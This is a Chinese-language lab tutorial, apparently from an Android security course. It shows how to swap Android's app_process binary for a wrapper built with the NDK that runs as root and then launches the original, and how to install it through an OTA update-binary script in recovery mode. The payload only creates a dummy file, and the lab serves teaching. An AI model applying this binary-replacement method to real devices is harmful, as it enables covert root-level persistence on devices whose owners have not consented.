

# NDK编译原生代码注入攻击

我们的app_process程序是一个独立的原生程序，必须用NDK来编译

!!! NDK

    Native Development Kit(NDK)是一个用来编译在安卓系统运行的c/c++工具，这种类型的代码，叫原生代码，
    可以在原生程序中独立存在也能被安卓app中的java代码通过JNI调用（Jave Native Interface）
    
## 通过app_process注入代码

安卓启动过程：会运行一个叫app_process的程序，这个程序是由一个叫Zygote的守护进程启动的（也是所有app的守护进程），
我们的目标是修改app_process，直接创建一个/system/dummy2文件

app_process.c文件：
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
extern char** environ;

int main(int argc, char** argv) {
    //Write the dummy file
    FILE* f = fopen("/system/dummy2", "w");
    if (f == NULL) {
    printf("Permission Denied.\n");
    exit(EXIT_FAILURE);
    }
    fclose(f);
    //Launch the original binary
    char* cmd = "/system/bin/app_process_original";
    execve(cmd, argv, environ);
    //execve() returns only if it fails
    return EXIT_FAILURE;
}
```
我们首先把原始app_process重命名为app_process_original


为了使用NDK，必须创建两个文件：Application.mk和Android.mk  

Application.mk:
```mk
APP_ABI := x86
APP_PLATFORM := android-21
APP_STL := stlport_static
APP_BUILD_SCRIPT := Android.mk
```

Android.mk:  
```mk
LOCAL_PATH := $(call my-dir)
include $(CLEAR_VARS)
LOCAL_MODULE := app_process
LOCAL_SRC_FILES := app_process.c
include $(BUILD_EXECUTABLE)
```

编译脚本complie.sh：  
```bash
export NDK_PROJECT_PATH=.
ndk-build NDK_APPLICATION_MK=./Application.mk
```


可以看到编译完后的代码在/libs/x86目录下

## 制作OTA包

准备update-binary脚本  
```bash
mv /android/system/bin/app_process32 /android/system/bin/app_process_original
cp app_process /android/system/bin/app_process32
chmod a+x /android/system/bin/app_process32
```

给update-binary可执行权限，并按如下格式准备好ota包，并打包  


## 安卓虚拟机进入recovery模式

必须登录普通账号不能是root账号，否则无法远程拷贝  


## ubuntu把包拷贝到安卓


## recovery模式下执行update-binary


初步验证一下update-binary执行了  


## 验证注入效果

重启进入安卓系统，验证app_process32被执行了  
  
可以看到我们通过修改升级过程中的文件注入了一个有root权限的恶意文件  